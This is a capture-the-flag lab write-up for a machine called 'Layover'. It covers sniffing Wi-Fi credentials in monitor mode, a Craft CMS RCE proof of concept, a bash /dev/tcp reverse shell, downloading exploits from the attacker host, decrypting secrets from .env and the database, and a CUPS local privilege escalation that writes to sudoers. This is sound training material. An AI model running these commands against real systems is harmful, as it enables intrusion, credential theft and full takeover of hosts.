







Layover
1. Reconnaissance
Ports Scan
rustscan -a <target-ip> -- -sC -sV -T4 -oA nmap-resultPORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.19
3389/tcp open ms-wbt-server Microsoft Terminal Service
Service Info: OSs: Linux, WindowsOnly ssh and RDP are exposed — a jump server. Let's try the provided credential contractor:Contractor2026! over SSH first:
ssh contractor@<target-ip>contractor@<attacker-ip>'s password:
Permission denied, please try again.Rejected. Let's pivot to 3389 — connecting with Remmina (RDP) as contractor succeeds, dropping us onto the jump server desktop.

Network Enum — WiFi
The jump server has 2 WLAN interfaces that are down. nmcli (NetworkManager) is the standard tool to check Wi-Fi devices and available access points:
nmcli device status
nmcli device wifi list
We can see an available SSID: HTB International WiFi. Let's connect:
nmcli dev wifi connect "HTB International WiFi"
# Device 'wlan2' successfully activated with '<redacted>'.Connected. We have two Wi-Fi interfaces. Let's put the second into monitor mode and sniff the plaintext credentials being sent to the internal portal:
sudo ip link set wlan3 down
sudo iw dev wlan3 interface add mon0 type monitor
sudo ip link set mon0 up
sudo iw dev mon0 set channel 6
sudo tshark -i mon0 \
-Y 'http.request.method == "POST"' \
-T fields \
-e ip.src \
-e ip.dst \
-e http.host \
-e http.request.full_uri \
-e urlencoded-form.key \
-e urlencoded-form.valueAfter a few minutes we catch a plaintext HTTP login POST:
Running as user "root" and group "root". This could be dangerous.
Capturing on 'mon0'
<source-ip> <web-server-ip> portal.international.htb http://portal.international.htb/miles/login.php username,password jenny,<password>Credentials for jenny leaked over the wire. Let's use them on the web portal.
Web Enum — Craft CMS
Logging into http://portal.international.htb/miles/login.php as jenny works. The portal runs Craft CMS — let's confirm the admin surface:

curl -sI http://portal.international.htb/admin
2. Exploitation
RCE as www-data
Let's clone the PoC to the attacker box and host it:
git clone https://github.com/khush-613/CVE-2026-44011-poc.git
cd CVE-2026-44011-poc
python3 -m http.server# on the jump server (reaches the internal portal)
wget http://<attacker-ip>:8000/exploit.pyTest the RCE against the target — run from the jump server:
python3 exploit.py \
-b http://portal.international.htb \
-u jenny \
-p '<password>' \
-c 'id' \
-H <wlan2-ip> --forceuid=33(www-data) gid=33(www-data) groups=33(www-data)RCE confirmed as www-data. Let's get a reverse shell:
nc -lnvp 9001python3 exploit.py \
-b http://portal.international.htb \
-u jenny \
-p '<password>' \
-c 'bash -c "bash -i 5<>/dev/tcp/<wlan2-ip>/9001 0<&5 1>&5 2>&5"' \
-H <wlan2-ip> --force
Access as aporter
From the www-data shell, the /home dir shows the real system user aporter. Let's check the app environment first:
cat /var/www/portal/.env# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production
# General settings
CRAFT_SECURITY_KEY=<security-key>
CRAFT_DEV_MODE=false
CRAFT_ALLOW_ADMIN_CHANGES=false
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=<db-user>
CRAFT_DB_PASSWORD=<db-password>
CRAFT_DB_TABLE_PREFIX=.env exposed CRAFT_SECURITY_KEY and the DB credentials. The database (or project config) may also hold an encrypted mail-transport password used for outgoing SMTP.
Let's enumerate the database:
mysql -h 127.0.0.1 -u <db-user> -p'<db-password>' -e "SHOW DATABASES;"
mysql -h 127.0.0.1 -u <db-user> -p'<db-password>' craft -e "SHOW TABLES;"htbairways_settings looks interesting.
mysql -h 127.0.0.1 -u <db-user> -p'<db-password>' craft -e "SELECT * FROM htbairways_settings;"The mailRelayPassword column holds the encrypted SMTP password. We have the app's own security key — let's decrypt it with Yii2's built-in Security::decryptByKey():
php -r "
require '/var/www/portal/vendor/autoload.php';
\$s = new \yii\base\Security();
echo \$s->decryptByKey(base64_decode('<ciphertext>'), '<security-key>');
"Since we can read both the .env security key and the database, calling decryptByKey() recovers the plaintext SMTP password. Classic password reuse: it also unlocks the local system user aporter.
sshpass -p '<password>' ssh aporter@<web-server-ip>uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)3. Privilege Escalation
CUPS LPE → root
Let's enumerate running services as aporter:
ps aux
ps aux | grep cupsd
cupsd catches our eye. It's the daemon for CUPS (Common Unix Printing System) — the standard Linux printing service that manages print jobs, printers, and print queues. It normally listens on port 631 and ships a web-based admin interface.

CVE-2026-34990 — CUPS 2.4.16 local privilege escalation via arbitrary file write through CUPS_CREATE_LOCAL_PRINTER. Affected <= CUPS 2.4.16.
Let's try it. Clone the PoC on the attacker box:
git clone https://github.com/khush-613/CVE-2026-34990-poc
cd CVE-2026-34990-poc
python3 -m http.server# on the jump server
wget http://<attacker-ip>:8000/exploit.py
python3 -m http.server# on the web server
wget http://<wlan2-ip>:8000/exploit.pyExecute it — writing a sudoers drop-in for aporter:
CUPS_TARGET=/etc/sudoers.d/aporter-pwn CUPS_ATTACKER=aporter python3 exploit.py[+] SUCCESS
[+] Root shell:
root@portal:/home/aporter#4. Flag Paths
- User flag:
/home/aporter/user.txt - Root flag:
/root/root.txt
Lessons
- RDP-exposed jump servers with WiFi allows full on-air credential harvesting — plaintext HTTP login forms leak creds to any monitor-mode sniff.
nmcliis the go-to for Wi-Fi recon/connect on NetworkManager systems; a second interface lets you stay connected while sniffing.- Authenticated Craft CMS RCE (CVE-2026-44011) via Yii behavior injection is a clean foothold when web creds are known.
- Readable
.env+ DB access lets you decrypt application secrets (YiiSecurity::decryptByKey()) — then reuse them as OS credentials. - CUPS local printers accept arbitrary file writes (
CUPS_CREATE_LOCAL_PRINTER); asudoers.dpayload is a trivial root path.